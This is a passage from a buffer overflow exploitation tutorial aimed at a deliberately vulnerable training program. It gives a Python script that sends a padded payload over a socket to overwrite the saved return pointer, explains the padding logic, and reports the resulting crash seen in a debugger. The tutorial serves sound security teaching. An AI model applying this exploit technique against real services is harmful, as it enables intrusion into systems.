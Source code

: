 ```{.python .numberLines}
#!/usr/bin/env python2
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf_totlen = 1024
offset_srp = 146

buf = ""
buf += "A"*(offset_srp - len(buf))    # padding
buf += "BBBB"                         # SRP overwrite
buf += "CCCC"                         # ESP should end up pointing here
buf += "D"*(buf_totlen - len(buf))    # trailing padding
buf += "\n"

s.send(buf)
```

---

**Why the trailing padding?**

It's sometimes necessary to keep the total length of what you're sending
constant. Some programs will behave differently with differently sized inputs,
and until you're certain that this won't affect your exploit, you should keep
the length constant. In our case, let's always send `buf_totlen` (1024)
characters followed by a newline. It's not needed for
`dostackbufferoverflowgood.exe` but it's a good habit to pick up early-on.

**What's with all the `"something - len(buf)"`?**

It's way of saying "append enough of the character to make the string be
`something` characters long". `len(buf)` is the current length of the string,
so we subtract it from `something` to get the number of characters we need to
append to take it out to a total length of `something`.

Note that we do it every time, even for the `A`'s. `len(buf)` will be `0` when
we append these `A`'s, but if we ever need to add something in at the beginning
of the `A`'s then we can slip it in and the appending of `A`'s will
automatically adjust to compensate. Cool huh?

\newpage

Running this:

```
% ./exploit.py
```

Immunity tells us that we get a crash, this time on `0x42424242` (The ASCII
sequence `"BBBB"`) and `ESP` points to `"CCCC"` followed by a bunch of `"D"`
characters. Just as expected.
